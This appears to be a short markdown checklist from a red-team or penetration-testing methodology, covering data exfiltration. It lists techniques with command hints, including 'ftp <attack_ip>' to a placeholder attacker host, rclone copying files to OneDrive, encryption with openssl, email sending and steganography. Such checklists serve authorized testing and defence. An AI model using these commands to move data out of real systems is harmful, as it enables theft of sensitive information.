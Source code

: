 # Data Exfiltration
- [ ] **Data Obfuscation:** Compress and encrypt files before exfiltration.
    - `Compress-Archive`
    - `openssl aes-256-cbc`
- [ ] **Standard Protocols:** Use FTP, SMB, HTTP, or HTTPS for data exfiltration.
    - `ftp <attack_ip>`
    - `Invoke-WebRequest`
- [ ] **Email:** Send sensitive data over email.
    - `Send-MailMessage`
- [ ] **Cloud Services:** Use cloud platforms like OneDrive, AWS, or Google Drive to exfiltrate data.
    - `rclone copy <file> onedrive:remote_path`
- [ ] **Steganography:** Hide data inside images or files to exfiltrate.
    - `Invoke-ImageLoad`
- [ ] **Physical Media:** Exfiltrate data using removable drives.
- [ ]  **Wireless Networks:** Use a wireless network for data exfiltration if network segmentation allows.
